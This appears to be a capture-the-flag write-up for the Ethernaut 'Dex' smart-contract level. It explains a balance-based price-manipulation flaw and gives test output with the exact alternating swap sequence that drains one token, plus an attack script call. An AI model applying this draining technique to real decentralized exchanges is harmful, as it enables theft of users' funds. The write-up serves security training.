 # Dex

[Dex](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)


1. `Dex` sets the swap price based on its token balances.
1. Price formula is loss making if the user can significantly influence the `Dex` balances.
1. Attack simply performs a sequence of swaps to drain the `Dex` from one of the tokens.

<BR />

# Attack Test

The attack test  gives us the exact sequence of transfers necesary to perform the live attack.

```BASH
forge test -vv
```

```BASH
Token1 Supply:  110
Token2 Supply:  110
Token1 Player:  10
Token2 Player:  10
Swap Rate - Token1:Token2, 100: 100
Swap Rate - Token2:Token1, 100: 100
Swapping Token1->Token2:  10
=====================================================

Token1 Player:  0
Token2 Player:  20
Swap Rate - Token1:Token2, 100: 81
Swap Rate - Token2:Token1, 100: 122
Swapping Token2->Token1:  20
=====================================================

Token1 Player:  24
Token2 Player:  0
Swap Rate - Token1:Token2, 100: 127
Swap Rate - Token2:Token1, 100: 78
Swapping Token1->Token2:  24
=====================================================

Token1 Player:  0
Token2 Player:  30
Swap Rate - Token1:Token2, 100: 72
Swap Rate - Token2:Token1, 100: 137
Swapping Token2->Token1:  30
=====================================================

Token1 Player:  41
Token2 Player:  0
Swap Rate - Token1:Token2, 100: 159
Swap Rate - Token2:Token1, 100: 62
Swapping Token1->Token2:  41
=====================================================

Token1 Player:  0
Token2 Player:  65
Swap Rate - Token1:Token2, 100: 40
Swap Rate - Token2:Token1, 100: 244
Swapping Token2->Token1:  45
=====================================================

Token1 Player:  110
Token2 Player:  20

Test result: ok. 1 passed; 0 failed; finished in 2.09s
```

<BR />

# Live Attack

This is the required transfer summary:
```
Swapping Token1->Token2:  10
Swapping Token2->Token1:  20
Swapping Token1->Token2:  24
Swapping Token2->Token1:  30
Swapping Token1->Token2:  41
Swapping Token2->Token1:  45
```

```BASH
./attackDo.sh
```

<BR />


